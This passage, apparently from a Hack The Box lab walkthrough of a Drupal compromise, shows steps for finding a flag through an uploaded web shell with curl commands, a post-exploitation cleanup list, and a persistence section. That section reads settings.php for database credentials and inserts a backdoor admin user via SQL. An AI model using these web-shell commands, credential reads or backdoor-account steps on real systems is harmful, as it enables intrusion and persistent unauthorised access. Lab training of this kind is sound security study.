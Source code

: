 #### Step 6: Flag Discovery & Submission

**Systematic Flag Search:**
```bash
# Search all possible flag locations
locations=(
    "/var/www/drupal.inlanefreight.local/flag.txt"
    "/var/www/drupal.inlanefreight.local/flag"  
    "/var/www/flag.txt"
    "/var/www/html/flag.txt"
    "/flag.txt"
    "/root/flag.txt"
)

# Test each location via established RCE
for location in "${locations[@]}"; do
    echo "Checking: $location"
    curl -s "http://[COMPROMISED_HOST]/[SHELL_PATH]?[PARAM]=cat+$location"
done

# Alternative: Recursive search
curl -s "http://[COMPROMISED_HOST]/[SHELL_PATH]?[PARAM]=find+/var/www+-name+'*flag*'+-type+f"

# Final flag retrieval
curl -s "http://[COMPROMISED_HOST]/[SHELL_PATH]?[PARAM]=cat+/var/www/drupal.inlanefreight.local/flag.txt"
```

#### Step 7: Expected Flag Format & Cleanup

**Flag Submission:**
```bash
# HTB flags typically follow format: HTB{...}
# Example expected flag: HTB{dr8p4l_c0r3_v8ln3r4b1l1t13s}

# Post-exploitation cleanup:
# 1. Remove uploaded shells and backdoors
# 2. Disable PHP filter module (if enabled)
# 3. Delete created admin users (if applicable)  
# 4. Remove malicious content nodes
# 5. Document all changes in pentest report
```

---

## Advanced Exploitation Techniques

### Persistent Access Methods

#### Database-Level Persistence
```bash
# Access Drupal database via compromised shell
curl "http://target.com/shell.php?cmd=cat+/var/www/html/sites/default/settings.php" | grep database

# Extract database credentials
mysql -h localhost -u drupal_user -p'password' drupal_db

# Create persistent admin user via SQL
INSERT INTO users (name, mail, pass, status, created, access) 
VALUES ('sysadmin', 'admin@system.local', 
        '$S$DkIkdKLIvRK0iVHm99X7B/M8QC17E1Tp/kMOd1Ie8V/PgWjtAZld', 
        1, UNIX_TIMESTAMP(), UNIX_TIMESTAMP());

# Add administrative privileges
```